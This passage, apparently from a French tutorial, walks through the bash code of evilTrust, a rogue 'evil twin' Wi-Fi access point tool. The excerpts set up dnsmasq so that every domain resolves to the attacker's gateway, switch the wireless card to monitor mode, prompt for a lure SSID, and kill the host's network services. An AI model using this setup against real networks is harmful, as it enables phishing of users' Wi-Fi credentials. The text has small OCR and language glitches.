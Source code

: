 ```go
	echo -e "dhcp-option=6,192.168.1.1\n" >> dnsmasq.conf
	echo -e "server=8.8.8.8\n" >> dnsmasq.conf
	echo -e "log-queries\n" >> dnsmasq.conf
	echo -e "log-dhcp\n" >> dnsmasq.conf
	echo -e "listen-address=127.0.0.1\n" >> dnsmasq.conf
	echo -e "address=/#/192.168.1.1\n" >> dnsmasq.conf

	ifconfig $choosed_interface up 192.168.1.1 netmask 255.255.255.0
	sleep 1
	route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
	sleep 1
	dnsmasq -C dnsmasq.conf -d > /dev/null 2>&1 &
    sleep 5
    ...    
```
Comme on peut le voir, pour le bon fonctionnement de l'outil, il est nécessaire d'avoir `php`, `dnsmasq` y `hostpad` installée. Si vous ne disposez pas de ces utilitaires, evilTrust se chargera d'installer tout le nécessaire pour pouvoir fonctionner.

Une fois la vérification effectuée, la fonction est appelée `startAttack`, où comme son nom l'indique... l'attaque commence à se déployer.

C'est dans cette phase où une série de fichiers temporaires nécessaires au déploiement de l'AP seront configurés, faisant fonctionner la carte réseau en mode Routeur (il est obligatoire que la carte réseau utilisée accepte le mode moniteur ) :

```go
function startAttack(){
	clear; if [[ -e credenciales.txt ]]; then
		rm -rf credenciales.txt
	fi

	echo -e "\n${yellowColour}[*]${endColour} ${purpleColour}Listando interfaces de red disponibles...${endColour}"; sleep 1

	# Si la interfaz posee otro nombre, cambiarlo en este punto (consideramos que se llama wlan0 por defecto)
	airmon-ng start wlan0 > /dev/null 2>&1; interface=$(ifconfig -a | cut -d ' ' -f 1 | xargs | tr ' ' '\n' | tr -d ':' > iface)
	counter=1; for interface in $(cat iface); do
		echo -e "\t\n${blueColour}$counter.${endColour}${yellowColour} $interface${endColour}"; sleep 0.26
		let counter++
	done; tput cnorm
	checker=0; while [ $checker -ne 1 ]; do
		echo -ne "\n${yellowColour}[*]${endColour}${blueColour} Nombre de la interfaz (Ej: wlan0mon): ${endColour}" && read choosed_interface

		for interface in $(cat iface); do
			if [ "$choosed_interface" == "$interface" ]; then
				checker=1
			fi
		done; if [ $checker -eq 0 ]; then echo -e "\n${redColour}[!]${endColour}${yellowColour} La interfaz proporcionada no existe${endColour}"; fi
	done

	rm iface 2>/dev/null
	echo -ne "\n${yellowColour}[*]${endColour}${grayColour} Nombre del punto de acceso a utilizar (Ej: wifiGratis):${endColour} " && read -r use_ssid
	echo -ne "${yellowColour}[*]${endColour}${grayColour} Canal a utilizar (1-12):${endColour} " && read use_channel; tput civis
	echo -e "\n${redColour}[!] Matando todas las conexiones...${endColour}\n"
	sleep 2
	killall network-manager hostapd dnsmasq wpa_supplicant dhcpd > /dev/null 2>&1
```
